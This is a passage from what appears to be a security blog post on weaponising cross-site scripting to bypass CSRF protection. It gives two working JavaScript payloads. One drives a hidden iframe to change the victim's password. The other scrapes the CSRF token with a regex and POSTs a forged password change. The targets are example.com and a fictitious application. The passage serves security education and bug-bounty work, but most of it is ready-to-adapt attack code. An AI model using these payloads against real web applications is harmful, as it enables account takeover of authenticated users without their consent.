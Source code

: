 Additionally, if the exploited user is authenticated to the vulnerable application, your JavaScript will be executing within the context of that authenticated session.

Why is this so important? Because it means that the JavaScript you inject has the power to do pretty much anything that the user can do. This might include submitting forms, updating profile details, making comments, installing plugins, updating passwords etc.



BYPASSING CSRF TOKENS:
----------------------

Once we have XSS, how can we submit a form that requires a CSRF token? There are a couple of different methods. The first is by loading the form within an iframe. If the page is loaded within an iframe, then the form will automatically include the CSRF token within the form, and we can simply interact with that form using JavaScript. This method was shown to me by Justin Gardner (Rhynorater). The code is also available in one of my Github repositories, which we’ll look at later in this blog: https://raw.githubusercontent.com/hakluke/weaponised-XSS-payloads/master/iframe_template.js.

 

frame=document.createElement("iframe")
frame.addEventListener("load", function() {
    // Wait 1 second after the iframe loads to ensure that the DOM has loaded
    setTimeout(function(){
        //Set new password

frame.contentDocument.getElementById("NewPassword").value="1337H4x0rz!!!"
        //Set confirm password

frame.contentDocument.getElementById("ConfirmNewPassword").value="1337H4x0rz!!!"
        //Click the submit button
        frame.contentDocument.getElementById("SubmitButton").click()
        setTimeout(function(){
            //Wait a couple seconds for the previous request to be sent
            alert("Your account password has been changed to 1337H4x0rz!!!")
        }, 2000)
    }, 1000)
});

frame.src="https://example.com/sensitive/action.php"
document.body.append(frame)
The other method is a little more complicated, but I think that it creates more reliable payloads. Essentially, you request the page that contains the form, pull out the CSRF token using regex, and then include that token in your form request. Here’s an example of that method on a fictitious application.

var req = new XMLHttpRequest();
var url = "/changepassword.php";
var regex = /token" value="([^"]*?)"/g;
req.open("GET", url, false);
req.send();
var nonce = regex.exec(req.responseText);
var nonce = nonce[1];
var params = "action=changepassword&csrf_token="+nonce+"&new_password=pwn3d";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
